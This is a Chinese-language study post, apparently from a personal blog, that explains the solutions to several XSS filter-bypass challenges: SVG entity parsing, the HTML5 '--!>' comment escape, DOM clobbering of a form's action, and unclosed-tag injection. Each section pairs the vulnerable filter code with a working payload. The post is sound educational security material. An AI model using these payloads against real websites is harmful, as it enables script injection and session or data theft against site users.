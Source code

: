 ```yaml
---
title: 'XSS进阶学习分享（一）'
date: 2023-02-07 10:14:01
tags: [XSS,笔记,知识点巩固,学习笔记]
published: true
hideInList: false
feature: 
isTop: false
---
```


~~偷悄悄：其实是技术分享用的PPT大纲~~

后续会在blog继续更一些之前看到的h1的xss构造攻击链为rce的文章（或许）
更新了文章：https://1dayluo.github.io/post/xss-shui-ti-pian-guan-yu-dom-colbbering-yi-xie-ge-ren-li-jie/ 下对于DOM clobbering的理解。


## 从SVG特性到高级XSS利用

## svg基础

- svg是最短的攻击向量 ： `<svg/onload=alert(1)>`
  
- svg特性可利用在绕过上：
  
  - XML-ish
    
  - 利用onload 和a绕过
    

### XML-ish

它支持在两个svg标签里插入任何CDATA元素，其中包括 `<script>` 并被按照常规加载。

题目：

```javascript
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

过滤的场景：

- 传统的一些攻击向量
  
- “=” 被禁止：html标签下的属性
  
- “=”被禁止：事件处理，包括on开头的系列：例如onload
  
- 左括号被禁止
  

没有考虑到的场景：

- svg的XML-ish特性

绕过利用了svg支持标签内插入任何CDATA元素。

在此之前先了解一下HTML解析机制：

> 一个HTML解析器作为一个状态机，它从输入流中获取字符并按照转换规则转换到另一种状态。在解析过程中，任何时候它只要遇到一个’<’符号（后面没有跟’/‘符号）就会进入“标签开始状态(Tag open state)”。然后转变到“标签名状态(Tag name state)”，“前属性名状态(before attribute name state)”……最后进入“数据状态(Data state)”并释放当前标签的token。当解析器处于“数据状态(Data state)”时，它会继续解析，每当发现一个完整的标签，就会释放出一个token。（原文内容）

所以任何标签建立并解析的前提是被HTML解析器判定为”标签开始状态“。这也就是为什么不用svg，只是用16进制实体不能够触发alert，例如：

```javascript
<div>&#60;img src&#x3d;x onerror&#x3d;alert&#x28;1)&#62;</div>
```

在这种情况下，「字符引用」不会判定为标签开始状态，也就不会建立新标签并解析标签。

像将实体编码放入 `script` 标签里也不可以：

```
<script>&#97;&#108;&#101;&#114;&#116&#40;&#57;&#41;&#59</script>
```

因为script标签属于HTML里五类元素里的 原始文本元素，不支持解析字符引用。

（五类：原始文本元素，RCDATA，空元素，外部元素，基本元素）

那么，svg的XML-ish意味着什么呢？ 首先明确svg是属于外部元素的。

XML-ish代表：`<svg>`遵循XML的定义。  
在XML中实体会自动转义,除了`<![CDATA[`和`]]>`包含的实体，所以最后的payload为：

```
<svg><script>prompt&#x28;1)</script></svg>
```

## 注释逃逸：HTML5

题目

```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

这里用HTML5对于注释的标准来绕过

> But, as it was first noted in 2012, HTML5 comments are a little bit special. Not only --> but also the character sequence --!>  has the ability to close comments and thereby it possible to bypass this filter as well.

payload:

```javascript
--!> <svg/onload=prompt(1)>
```

## DOM Clobbering：从html injection到 javascript injection

题目

```javascript
  function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}
```

读取代码，可以发现，会用`#` 对input进行分割，前半部分为form的action的值，后半部分插入到`<input>` 标签内。并且这一切生成 outerHTML里。

可以看到，即使action注入了script也由于下面的if判断无法触发，那么该怎么办呢？

这里用了标准下HTMLCollection的特性：

> The namedItem(key) method steps are:
> If key is the empty string, return null.
> Return the first element in the collection for which at least one of the following is true:
> it has an ID which is key;
> it is in the HTML namespace and has a name attribute whose value is key;
> or null if there is no such element.

重点在”Return the first element in the collection for which at least one of the following is true:“ 这句，下面有三个条件，满足一个即可。这里这道题我们用的是第三个条件，利用inputi标签name这个attribute。HTML解析会返回先搜索到的第一个属性名称为要查询的关键字（ `document.forms[0].action` )

```
javascript:prompt(1)#{"action":1}
```

HTML看起来是这样的

![](https://i.imgur.com/ZeIxUr0.png)

这里我们取 `document.forms[0].action` 取到的是

![](https://i.imgur.com/SvBaZBR.png)

## 利用自动补全绕过js语法

题目

```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

这里它用正则表达式的 `gi` 限定了大小写不敏感匹配，但是，它没有考虑到不完整的标签

我们用不完整的注入

```javascript
<svg/onload=prompt(1)
```

这里HTML会自动补全后面的 `>`